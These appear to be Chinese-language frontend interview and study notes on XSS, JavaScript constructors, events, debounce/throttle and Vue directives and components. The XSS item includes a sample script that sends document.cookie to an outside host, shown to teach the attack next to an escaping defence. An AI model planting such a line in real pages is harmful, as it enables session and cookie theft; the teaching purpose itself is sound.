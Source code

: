 # Vue

## day2-2

### 面试题
* xss攻击，与防御
    * 跨域脚本攻击
    ```js
        ​<img src="xxx" onclick="go()" />
        <h4 style="color:#58bc58">点我有惊喜</h4>
        <script>
            localtion.href="http://www.laoxie.com?data="+document.cookie
        </script>
    ```
    * 防御：
        * 对输入输出进行过滤
        ```html
            ​&lt;img src="xxx" onclick="go()" /&gt;
        ```
* 实例化过程经历什么 new String()
    ```js
        function Mayun(){
            // 1. 创建一个对象
            let obj = {};

            //2. 将this指向obj
            Mayun.bind(obj)

            // 3. 执行内部代码，给obj添加属性
            this.xx1 = 'xx1'
            this.xx2 = 'xx2'
            this.xx3 = 'xx3'

            // 4. 改变原型对象
            obj.__proto__ = Mayun.prototype

            // 5. 返回这个对象
            return obj
        }

        let my = new Mayun();// Mayun()

    ```
* 什么叫轮询
    * 用自己的语言表达出来
* 事件绑定方式，和移除方式
```js
    <button onclick="show()">点我有惊喜</button>

    ele.onclick = show; // ele.onclick = null;
    ele.addEventListener('click',show,false);// ele.removeEventListener('click',show,false)

    function show(){
        
    }
```
* 二次封装
    * 提高开发效率
    * 在封装的基础上再封装
* 防抖与节流
    * 目的为了优化性能
    * 节流：只执行第一次，忽略后面所有操作
        * 滚动加载
    * 防抖：只执行最后一次，忽略前面所有操作
        * 百度搜索建议

### 知识点
* 前端三大框架
    * angular
    * react
    * vue
* 渐进式
    * 核心 -> 配套框架、插件 -> 扩展性
* 安装版本
    * 开发版本  development
        * 完整未压缩：调试、测试，本地开发使用
    * 生产版本  production
        * 压缩合并：删除了警告，上线使用
    * CDN
    * npm / yarn

## day2-3

### 面试题
* Vue双向数据绑定的原理
    * Model -> View : getter&setter
    * View -> Model : 事件

    * v-model 的原理：能用什么操作来替代v-model（单向加+事件）
        * {{}}
        * v-bind
* 实例化对象的执行过程
    1. 创建一个对象 vm->Object.prototype
    2. 改变this指向
    3. 改变原型对象的向 vm->Vue.prototype
    4. 执行构造函数中的代码，给vm添加属性
    5. 返回vm
* http协议与ws协议的区别
    * socket心跳

* nodejs版本
    * 多版本共存nvm
        * 安装node: nvm install xxx
        * 切换node: nvm use xxx
* 乱码的根源
    * 编码不一致
* 自适应布局问题
    * flex
    * 定位
* gulp的方法
    * gulp.task()
    * gulp.src()
    * gulp.dest()
    * gulp.watch()

### 复习
* 属性特性
    > 传统方式定义属性，属性特性默认为true，通过Object.defineProperty定义的属性，属性特性默认为false
    * 值属性
        * configurable
        * enumerable
        * writable
        * value
    * 存储器属性
        * configurable
        * enumerable
        * get
        * set

        obj = {
            a:10,
            b:function(){

            },
            get c(){
                return this.a;
            },
            set c(val){
                this.a = val
                // 为所欲为
            }
        }

        obj.b()
        obj.c ;//10
        obj.c = 100
* Vue
    * 指令
        * v-on      @
        * v-bind    :
            * 属性
                * class
                * style
        * v-model
        * v-if/v-else-if/v-else
        * v-for
            * in
            * of
        * v-show
        * 
    * 实例化配置参数
    * 响应式属性
        * 初始化data
        * Vue.set(target,key,val) / vm.$set(target,key,val)
            * target不可以是vm实例和data属性
        * 数组变异方法
    * 架构模式
        * MVC
        * MVP
        * MVVM
    * 思维的转变
        * 关注节点操作 -> 关注数据

### 知识点
* Vue实例化过程
    * 这里定义的data为值属性
    但在实例化后，Vue会通过Object.defineProperty()把他们变成存储器属性（getter&setter）
    并写入vm实例（意味着可以在代码中通过this访问到这些属性）
* 模块化（组件化）
* 组件
    > 组件就是一个Vue实例
    * 全局组件
        * 定义：Vue.component(name,options)
            * name：组件名称
            * options:组件配置参数
    * 局部组件
* 组件通讯
    * 数据流（数据流向：上->下，单向数据流）

